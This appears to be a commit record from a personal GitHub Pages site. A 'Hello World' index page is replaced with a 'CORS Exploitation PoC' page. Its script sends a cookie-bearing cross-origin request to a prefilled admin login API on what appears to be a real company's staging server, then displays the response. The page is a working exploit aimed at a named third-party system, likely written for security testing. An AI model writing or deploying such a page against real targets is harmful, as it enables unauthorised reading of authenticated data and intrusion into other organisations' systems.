

Before and after one commit to rottenpot/my-website, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html - CORS

```diff
--- a/index.html
+++ b/index.html
@@ -1,10 +1,54 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <title>My First Website</title>
+  <meta charset="UTF-8">
+  <title>CORS Exploitation Test</title>
+  <style>
+    body {
+      font-family: Arial, sans-serif;
+      margin: 40px;
+    }
+    input {
+      width: 600px;
+    }
+    pre {
+      border: 1px solid #ccc;
+      padding: 10px;
+      margin-top: 10px;
+      white-space: pre-wrap;
+    }
+  </style>
 </head>
 <body>
-    <h1>Hello World!</h1>
-    <p>This is my website hosted on GitHub Pages.</p>
+  <h2>CORS Exploitation PoC</h2>
+  <p>This page sends a cross-origin request to the target URL below. The browser automatically sets the <code>Origin</code> header to this GitHub Pages site.</p>
+
+  <input
+    type="text"
+    id="targetUrl"
+    value="https://staging-elb.basecamp.invesco.co.uk/backend-proxy/adm/api/v1/login"
+  >
+  <button onclick="exploit()">Send Request</button>
+
+  <pre id="output"></pre>
+
+  <script>
+    function exploit() {
+      const url = document.getElementById('targetUrl').value;
+      const output = document.getElementById('output');
+      output.textContent = 'Sending GET request to ' + url + ' ...';
+
+      const xhr = new XMLHttpRequest();
+      xhr.open('GET', url, true);
+      xhr.withCredentials = true; // include cookies if any
+      xhr.onreadystatechange = function() {
+        if (xhr.readyState === 4) {
+          output.textContent =
+            'Status: ' + xhr.status + '\n\nResponse:\n' + xhr.responseText;
+        }
+      };
+      xhr.send();
+    }
+  </script>
 </body>
 </html>
```
